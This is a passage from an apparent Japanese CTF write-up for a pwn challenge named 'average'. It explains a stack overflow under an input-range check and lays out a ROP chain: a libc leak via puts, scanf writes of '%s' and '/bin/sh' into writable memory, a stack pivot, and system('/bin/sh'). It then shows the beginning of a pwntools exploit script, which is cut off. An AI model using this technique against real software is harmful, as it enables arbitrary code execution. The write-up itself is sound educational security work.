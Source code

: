 `checksec`した結果は次の通り

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

最初に、入力する数値の数`n`を与えて、その後に`n`だけ数値を入力してその平均値を計算するというプログラムである。

`n`は特に制限が無く、その後に入力する数値はスタック上の配列に格納されるので任意長のスタックオーバーフローが存在する。

というわけで「やるだけじゃん」だと思うが、実は次のような罠がある

```c
        //  prevent integer overflow in summation
        if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
```

このせいで小さい数値しか書き込むことが出来ず、`puts`でどこかのGOT経由でlibcのアドレスを開示し、ret2mainで再びBOFをしてlibcのアドレスをスタックに書き込んで、リターンアドレスに設定するという事は出来ない。

PIEが無効なのでバイナリのアドレスは小さく(`0x400000`程度)、バイナリのコード片でROPは出来ることから、`puts`でどこかのGOTを開示してlibcのアドレスを得ることは出来る。

更に`scanf`のような入力関数があるので[TSGCTF 2021 - coffee](https://project-euphoria.dev/problems/2022-06-14/)みたいにROPチェーンの末尾に`scanf`をくっつけて、開示したlibcのアドレスを元にwritableな領域を偽のスタックとした新たなROPチェーンを書き込んでstack pivotをすれば良い。

手順は次の通り

1. `puts(puts@got)`でlibc leakする
2. 後に`scanf("%s", <addr>)`でROPチェーンを書き込むために`%s`をバイナリ中に書き込む
	1. `"%lld"`はバイナリ中に存在するので`scanf("%lld", <addr>)`をROPで呼んで適当なwritableな場所に`"%s"`を書き込む(数値として高々65536なので`%lld`が使える)
3. 後に`system("/bin/sh")`をするために`"/bin/sh"`を`scanf("%s", <addr>)`でバイナリ中に書き込む
4. バイナリ中の適当なwritableな領域(今回は0x404800を使用)に続きのROPチェーンを書き込む
5. stack pivotする(`pop rbp; ret; leave; ret`を使った)
6. 4で書いたROPチェーンで`system("/bin/sh")`を実行する

## Code

```python
from pwn import process, remote, ELF, u64, p64


def dump_hex_dict(d):
    for k, addr in d.items():
        print(f"{k}: {hex(addr)}")

def send_num(n):
    sc.recvuntil(b"]")
    sc.sendline(str(n).encode())

elf_path = "./average"
elf = ELF(elf_path)
libc_path = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"
libc = ELF(libc_path)

addrs = {
    "%lld": next(elf.search(b"%lld")),
    "%s": 0x404100,
    "/bin/sh": 0x404110,
    "scanf_plt": elf.plt["__isoc99_scanf"],
    "puts_plt": elf.plt["puts"],
```